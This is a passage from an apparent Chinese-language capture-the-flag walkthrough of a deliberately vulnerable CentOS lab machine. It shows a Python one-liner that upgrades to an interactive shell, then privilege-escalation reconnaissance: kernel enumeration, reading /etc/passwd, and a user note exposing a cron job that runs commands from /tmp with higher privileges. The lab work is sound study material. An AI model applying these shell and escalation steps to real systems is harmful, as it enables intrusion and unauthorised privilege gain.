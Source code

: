 ```bash
```

python交互shell

```bash
python -c'import pty;pty.spawn("/bin/bash")'
```

# 提权

1、查看内核

```bash
bash-4.1$ uname -a
uname -a
Linux 192.168.0.104 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

bash-4.1$ cat /etc/*release*
cat /etc/*release*
CentOS release 6.7 (Final)
CentOS release 6.7 (Final)
CentOS release 6.7 (Final)
cpe:/o:centos:linux:6:GA
```

2、查看用户信息

```bash
bash-4.1$ cat /etc/passwd | grep -v nologin
cat /etc/passwd | grep -v nologin

root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
```

```bash
bash-4.1$ cat /home/eezeepz/notes.txt
cat /home/eezeepz/notes.txt
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
```
